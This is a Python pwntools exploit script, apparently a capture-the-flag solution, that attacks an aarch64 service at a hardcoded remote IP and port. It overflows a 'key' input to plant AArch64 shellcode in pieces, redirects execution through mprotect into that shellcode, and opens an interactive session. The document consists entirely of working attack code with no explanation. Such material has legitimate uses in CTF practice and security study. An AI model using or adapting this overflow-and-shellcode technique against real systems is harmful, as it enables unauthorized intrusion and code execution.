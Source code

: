 
```python=
from pwn import *

context.arch = 'aarch64'
r = remote('52.195.11.111',6666)

load_key = 0x4002f4
buf = 0x00007ffeffffd000
mprotect = 0x401b68

payload='''
MOV x0,x2;
MOV x19,x2;
MOV x1,0x9c08;
add x1,x1,x19;
MOVK            X1, #0xc001,LSL#16;
MOVK            X1, #0xffff,LSL#32;
MOVK            X1, #0xffff,LSL#48;
MOV             X2, 1;
MOV             X8, #0x3f;
SVC             0;
cmp x19,#7
b.eq 0xc
add x19,x19,1
b 0xffffffffffffffd4
MOV x0,x2;
MOV x1,0x9bb9;
MOVK            X1, #0xc001,LSL#16;
MOVK            X1, #0xffff,LSL#32;
MOVK            X1, #0xffff,LSL#48;
MOV             X2, 2;
SVC             0;
'''


shellcode=asm(payload)
def cmd(c, idx, key=''):
    r.sendlineafter('cmd> ', str(c))
    r.sendlineafter('index: ', str(idx))
    if c != 0:
        r.sendlineafter('key: ', key)
k=shellcode.split("\x00")

cc=0
for i in k[::-1]:
  print "HAH",i.encode("hex")
  cmd(1, 1, ('a'*(16+len(shellcode)-len(i)-cc)+i).ljust(0x100,"\x00")+flat(0x1234,0x40051C))
  cc+=len(i)+1
cmd(0, 'a'.ljust(0x100)+flat(0x400634,0x40051C))
cmd(1, 4096, 'aaaaa'.ljust(0x100)+flat(load_key, mprotect))
cmd(0, 'a'.ljust(0x100)+flat(buf+0x10))

r.send(p64(0xffffffffc0008408)+"\x8f")


r.interactive()

```
